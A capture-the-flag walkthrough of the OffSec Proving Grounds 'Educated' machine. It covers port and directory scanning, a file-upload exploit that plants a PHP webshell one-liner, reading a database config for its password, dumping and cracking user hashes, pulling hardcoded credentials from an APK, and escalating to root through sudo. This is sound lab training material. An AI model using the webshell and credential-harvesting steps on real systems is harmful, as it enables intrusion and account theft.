

# Educated — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Hard
**OS:** Linux

---

## TL;DR

JEIFMS School Management System file upload RCE → webshell as www-data → database password from config → MySQL hash cracking → lateral move to msander → APK reverse engineering with jadx to find emiller's password → sudo ALL → root.

---

## Enumeration

Full port scan:

```bash
sudo nmap -sC -p- -n -Pn -sV --min-rate=9362 192.168.242.13 -oN nmap.txt
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 8.2p1 Ubuntu |
| 80 | HTTP | Apache httpd 2.4.41 ("Wisdom Elementary School") |

Just SSH and a web server with a school management system. Gobuster reveals a `/management` directory:

```bash
gobuster dir -u http://192.168.242.13/ -w `/usr/share/wordlists/dirb/common.txt`
```

Deeper enumeration on `/management`:

```bash
gobuster dir -u http://192.168.242.13/management -w `/usr/share/wordlists/dirb/common.txt`
```

Key findings:
- `/management/login` — JEIFMS login page
- `/management/admin` — Admin endpoint
- `/management/uploads` — Upload directory
- `/management/installation` — Contains `invoice.docx` and `database.sql`

---

## Exploitation — File Upload RCE (EDB-50587)

We find an exploit for the school management system: [EDB-50587](https://www.exploit-db.com/exploits/50587)

The exploit uses a multipart POST request to upload a PHP shell via the exam question upload feature. The first attempt gives a bad request error — after fixing the request format, we upload a webshell:

```php
<?php system($_GET["cmd"]); ?>
```

> **Note:** The initial `eval()` payload didn't work — switching to `system()` did the trick.

The shell is accessible at:

```
http://192.168.242.13/management/uploads/exam_question/cmd.php?cmd=whoami
```

We send a Python reverse shell payload and catch a shell as `www-data`.

---

## Lateral Movement — Database Config → MySQL → msander

Finding the database config:

```bash
cat /var/www/html/management/application/config/database.php
```

```php
'hostname' => 'localhost',
'username' => 'school',
'password' => '@jCma4s8ZM<?kA',
'database' => 'school_mgment',
```

Logging into MySQL:

```bash
mysql -u school -p'@jCma4s8ZM<?kA' -h localhost
```

```sql
use school_mgment;
select email,password from admin;
select email,password from teacher;
```

Extracted hashes:
| Email | Hash |
|-------|------|
| admin@school.pg | `9be3a2dd3a71f3ccc7cc7eb3a5dd997f` |
| michael_sander@school.pg | `3db12170ff3e811db10a76eadd9e9986e3c1a5b7` |

Cracking the teacher hash gives us: `greatteacher123`

```bash
su msander
# Password: greatteacher123
```

---

## Privilege Escalation — APK Reverse Engineering

In `/home/emiller/development`, we find a `grade-app.apk`. Transfer it to our Kali machine and reverse engineer it using **jadx**:

Reference: [Android APK Reverse Engineering using JADX](https://www.secplicity.org/2019/10/04/android-apk-reverse-engineering-using-jadx/)



The APK source code reveals hardcoded credentials:

```
e.miller:EzPwz2022_dev1$$23!!
```

Switch to emiller:

```bash
su emiller
# Password: EzPwz2022_dev1$$23!!
```

Checking sudo:

```bash
sudo -l
```

```
User emiller may run the following commands on school:
    (ALL : ALL) ALL
```

Full sudo access — `sudo su` and we're **root**. 🎉

---

## Key Takeaways

- **School management systems** are often riddled with vulnerabilities — file upload bypasses are common
- **Database config files** are a goldmine for credentials and lateral movement
- **APK reverse engineering** with jadx is an underrated skill for CTFs — mobile apps often have hardcoded credentials
- The `eval()` vs `system()` distinction matters in PHP webshells — `system()` actually outputs command results
- This box has a beautiful multi-step attack chain: webshell → DB creds → hash cracking → APK reversing → root

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
